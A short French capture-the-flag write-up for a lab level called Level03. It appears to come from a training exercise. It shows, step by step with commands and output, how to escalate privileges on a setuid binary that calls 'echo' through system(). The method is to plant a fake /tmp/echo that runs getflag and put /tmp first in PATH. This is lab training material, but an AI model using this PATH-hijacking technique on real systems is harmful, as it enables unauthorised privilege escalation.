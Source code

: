# Level03

Qui suis-je? Ou suis-je?

	$ ls -la
	-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03

	$ file level03
	(binary file with setuid setgid)

	$ ./level03
	Exploit me

	$ strings level03 | grep "Exploit"
	/usr/bin/env echo Exploit me

On voit que le binaire 'echo' est appelé pour l'affichage
On va analyser le programme avec GDB

	$ gdb level03

	$ (gdb) disas main
	...
	0x080484fe <+90>:	call   0x80483b0 <system@plt>
	...

On voit que la fonction system est appelée, c'est surement elle qui appelle echo

Il va falloir creer un 'faux' echo qui va en fait executer getflag

	$ echo "/bin/sh -c 'getflag'" > /tmp/echo

	$ ls -l /tmp/echo
	-rw-rw-r-- 1 level03 level03 21 Nov 27 19:44 /tmp/echo
	(On a eu les droits)

	$ chmod 755 /tmp/echo

Puis ajouter /tmp dans le PATH en premier pour que le systeme le trouve dedans

	$ export PATH=/tmp:$PATH

Et enfin lancer le binaire

	$ ./level03
	Check flag.Here is your token : XXXXXXXXXXXXXXXXXXX

:checkered_flag:
